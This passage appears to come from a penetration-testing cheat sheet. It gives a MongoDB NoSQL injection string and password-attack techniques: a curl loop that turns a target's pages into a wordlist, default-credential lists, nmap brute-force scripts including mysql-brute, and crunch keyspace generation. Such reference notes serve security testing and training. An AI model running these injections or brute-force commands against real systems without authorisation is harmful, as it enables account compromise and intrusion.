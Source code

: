 
   -   Often you can create an exception dump message with MongoDB using a malformed NoSQLQuery such as:

      `a'; return this.a != 'BadData’'; var dummy='!`



-   Password Attacks
    --------------------------------------------------------------------------------------------------------------

    -   AES Decryption
        http://aesencryption.net/

    -   Convert multiple webpages into a word list
        ```bash
        for x in 'index' 'about' 'post' 'contact' ; do \
          curl http://$ip/$x.html | html2markdown | tr -s ' ' '\\n' >> webapp.txt ; \
        done
        ```

    -   Or convert html to word list dict
        `html2dic index.html.out | sort -u > index-html.dict`

    -   Default Usernames and Passwords

        -   CIRT
            [*http://www.cirt.net/passwords*](http://www.cirt.net/passwords)

        -   Government Security - Default Logins and Passwords for
            Networked Devices

        -   [*http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php*](http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php)

        -   Virus.org
            [*http://www.virus.org/default-password/*](http://www.virus.org/default-password/)

        -   Default Password
            [*http://www.defaultpassword.com/*](http://www.defaultpassword.com/)

    -   Brute Force

        -   Nmap Brute forcing Scripts
            [*https://nmap.org/nsedoc/categories/brute.html*](https://nmap.org/nsedoc/categories/brute.html)

        -   Nmap Generic auto detect brute force attack:
            `nmap --script brute -Pn <target.com or ip>`

        -   MySQL nmap brute force attack:
            `nmap --script=mysql-brute $ip`

    -   Dictionary Files

        -   Word lists on Kali
            `cd /usr/share/wordlists`

    -   Key-space Brute Force

        -   `crunch 6 6 0123456789ABCDEF -o crunch1.txt`
